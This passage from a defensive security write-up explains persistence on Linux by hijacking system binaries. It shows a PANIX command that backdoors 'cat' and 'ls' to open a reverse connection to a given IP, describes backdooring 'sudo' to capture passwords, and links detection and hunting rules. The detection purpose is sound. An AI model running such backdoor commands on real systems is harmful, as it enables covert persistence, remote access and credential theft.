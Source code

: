 System binaries, located in directories like `/bin`, `/sbin`, `/usr/bin`, and `/usr/sbin` are commonly used by users/administrators to perform basic tasks. Attackers can hijack these system binaries by replacing or backdooring them with malicious counterparts. System binaries that are used often such as `cat`, `ls`, `cp`, `mv`, `less` or `sudo` are perfect candidates, as this mechanism relies on the user executing the binary. 

There are multiple ways to establish persistence through this method. The attacker may manipulate the system’s `$PATH` environment variable to prioritize a malicious binary over the regular system binary. Another method would be to replace the real system binary, executing arbitrary malicious code on launch, after which the regular command is executed.

Attackers can be creative in leveraging this technique, as any code can be executed. For example, the system-wide `sudo`/`su` binaries can be backdoored to capture a password every time a user attempts to run a command with `sudo`. Another method can be to establish a reverse connection every time a binary is executed or a backdoor binary is called on each binary execution. As long as the attacker hides well and no errors are presented to the user, this technique is difficult to detect. MITRE does not have a direct reference to this technique, but it probably fits [T1554](https://attack.mitre.org/techniques/T1554/) best.

Let’s take a look at what hijacking system binaries might look like. 

### Persistence through T1554 - hijacking system binaries

The implementation of system binary hijacking in PANIX leverages the wrapping of a system binary to establish a reverse connection to a specified IP. You can reference this [example](https://github.com/Aegrah/PANIX/blob/main/panix.sh#L2391-L2401) or set it up by executing:

```
> sudo ./panix.sh --system-binary --default --ip 192.168.1.1 --port 2016
> [+] cat backdoored successfully.
> [+] ls backdoored successfully.
```

Now, execute `ls` or `cat` to establish persistence. Let’s analyze the logs. 

![Events generated as a result of the Linux system binary hijacking persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image11.png "Events generated as a result of the Linux system binary hijacking persistence establishment")

In the figure above we see PANIX executing, moving `/usr/bin/ls` to `/usr/bin/ls.original`. It then backdoors `/usr/bin/ls` to execute arbitrary code, after which it calls `/usr/bin/ls.original` in order to trick the user. Afterwards, we see `bash` setting up the reverse connection. The copying/renaming of system binaries and the hijacking of the `sudo` binary are captured in the following detection rules.

| Category | Coverage                      |
|----------|-------------------------------|
| File     | [System Binary Moved or Copied](https://github.com/elastic/detection-rules/blob/main/rules/linux/defense_evasion_binary_copied_to_suspicious_directory.toml) |
|          | [Potential Sudo Hijacking](https://github.com/elastic/detection-rules/blob/main/rules/linux/privilege_escalation_sudo_hijacking.toml)      |

### Hunting for persistence through T1554 - hijacking system binaries

This activity should be very uncommon, and therefore the detection rules above can be leveraged for hunting. Another way of hunting for this activity could be assembling a list of uncommon binaries to spawn child processes. To aid in this process we created the [Unusual System Binary Parent (Potential System Binary Hijacking Attempt)](https://github.com/elastic/detection-rules/blob/main/hunting/linux/queries/persistence_via_unusual_system_binary_parent.toml) hunting rule.
